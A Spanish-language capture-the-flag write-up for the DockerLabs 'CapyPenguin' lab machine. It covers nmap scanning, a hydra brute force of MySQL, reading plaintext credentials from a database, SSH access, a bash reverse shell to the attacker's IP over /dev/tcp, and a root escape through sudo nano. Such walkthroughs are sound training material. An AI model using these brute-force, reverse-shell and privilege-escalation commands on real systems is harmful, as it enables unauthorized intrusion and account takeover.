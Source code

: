 # Máquina CapyPenguin

---------------------

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3306/tcp open  mysql   syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9e6a3f89de9d05d99432738d31e0a5eb (ECDSA)
|_  256 e7ef4f4a2586c955b0880a8c7903d09f (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Web de Capybaras
3306/tcp open  mysql   MySQL 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
```

Vemos algo más de información sobre los servicios. Vemos la versión de SSH, la de Apache, y algo de información extra sobre la base de datos MySQL que corre como en la mayoría de casos por defecto en el puerto 3306.

Inspeccionaremos la página web que corre por el puerto 80:

![Pasted image 20240413135355](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/45e62bc6-8d09-43b8-9428-f9a37ec4c214)


_"**Hola capybarauser, esta es una web de capybaras. He securizado mi password, ya no se encuentra al comienzo del rockyou..., espero que nadie use el comando tac y se fije en las últimas passwords del rockyou**"_

Nos dan una pista, y es que la contraseña de **"capybarauser"** se encuentra al final del famoso diccionario **rockyou**. El comando **tac** que se menciona, permite leer y mostrar el contenido de un archivo en orden inverso. De forma que le aplicamos este comando al **rockyou** y almacenamos el resultado en un nuevo fichero que llamaré "**MiRockYou.txt**" para poder usarlo como diccionario en un ataque de fuerza bruta.

```shell
tac /usr/share/wordlists/rockyou.txt > MiRockYou.txt
```

--------------

## Explotación

Tenemos que tener cuidado con las primeras líneas del nuevo diccionario, que están corruptas, quitamos los caracteres extraños y continuamos con la fuerza bruta.
Con este nuevo diccionario realizaremos un ataque de fuerza bruta contra el puerto **3306** donde corre el servicio **MySQL**.. Lo haremos con la herramienta **hydra**.

```shell
hydra -l capybarauser -P MiRockYou.txt mysql://172.17.0.2 -t 4
----------------------------------------------------------------
[DATA] attacking mysql://172.17.0.2:3306/
[3306][mysql] host: 172.17.0.2   login: capybarauser   password: ie168
1 of 1 target successfully completed, 1 valid password found
```

Encontramos credenciales para el usuario **capybarauser:ie168**

Accedemos a la base de datos con las nuevas credenciales:

```shell
mysql -h 172.17.0.2 -P 3306 -u capybarauser -p
(ponemos la contraseña ie168)
```

Enumeraremos un poco la base de datos.

```sql
MariaDB [(none)]> SHOW DATABASES;
------------------------------------
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| pinguinasio_db     |
| sys                |
+--------------------+
```

```sql
USE pinguinasio_db;
SHOW TABLES;
-------------------------------
+--------------------------+
| Tables_in_pinguinasio_db |
+--------------------------+
| users                    |
+--------------------------+
1 row in set (0,001 sec)
```

```sql
SELECT * FROM users;
------------------------------
+----+-------+------------------+
| id | user  | password         |
+----+-------+------------------+
|  1 | mario | pinguinomolon123 |
+----+-------+------------------+
1 row in set (0,001 sec)
```

Encontramos un usuario y su contraseña: "**mario:pinguinomolon123**"
Trataremos de entrar por **SSH**.

```shell
ssh mario@172.17.0.2
```

Estamos dentro !

------------------------------
### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.37/443 0>&1" 
```

(Siendo la 192.168.1.37 mi IP de la máquina atacante)

---------------

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------
## Escalada de privilegios

Hacemos un **sudo -l** para ver si podemos ejecutar algo con privilegios de otro usuario o de root.

```shell
sudo -l
------------------
(ALL : ALL) NOPASSWD: /usr/bin/nano
```

Podemos ejecutar **nano**. Esto es crítico y podemos abusar de este para ejecutar una consola como el usuario root. Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
sudo nano
^R^X (Ctrl+R y Ctrl+X)
reset; sh 1>&0 2>&0
```

![Pasted image 20240415220430](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/0c76c1a8-1d89-46c3-bc06-2aafe6c7b515)

Podemos hacer un **clear** para quitar el **nano** y ver bien la consola:

```shell
clear
whoami
----------------
root
```
